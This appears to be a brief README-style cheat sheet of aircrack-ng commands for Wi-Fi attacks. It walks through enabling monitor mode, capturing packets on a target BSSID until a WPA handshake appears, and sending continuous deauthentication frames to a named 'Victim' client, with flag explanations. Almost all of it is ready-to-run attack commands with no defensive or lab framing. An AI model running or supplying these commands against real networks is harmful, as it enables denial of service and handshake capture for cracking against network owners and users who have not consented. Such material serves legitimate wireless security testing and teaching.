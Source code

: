 # Verify that airmon-ng has no issues:
```
sudo airmon-ng check 
```
# Kill any issues with using airmon-ng:
```
sudo airmon-ng check kill
```
# Find Network Interface Cards:
"ip addr" or "ifconfig"

#  Start airmon-ng on interface:
```
sudo airmon-ng start wlp1s0
```
# Start monitor mode on interface:
```
sudo airodump-ng wlp1s0mon
```
# Save packets from airodump:
### sudo airodump-ng -w [Save to this File Name] -c [Channel#] [Interface]
```
sudo airodump-ng -w New -c 2 wlp1s0mon
```
### sudo airodump-ng -c [Channel#] --bssid [bssid MAC] -w [Save to this File Name] [Interface]
```
sudo airodump-ng -c 4 --bssid 00:00:00:00:00:00 -w New  wlp1s0mon
```
## *wait for "WPA handshake" to show up in the top right corner*

# Deauthenticating Device from the network
```
aireplay-ng -0 0 -a <AP-MAC> -c <Victim-Mac> wlan0mon
```
Command instructions:
```
-0 means deauthentication.
 0 is the number of deauths to send 0 means send them continuously, you can send 10 if you want the target to disconnect and reconnect.
-a 50:C7:BF:DC:4C:E8 is the MAC address of the access point we are targeting.
-c E0:B5:2D:EA:18:A7 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated.
wlan0mon is the interface name.
```
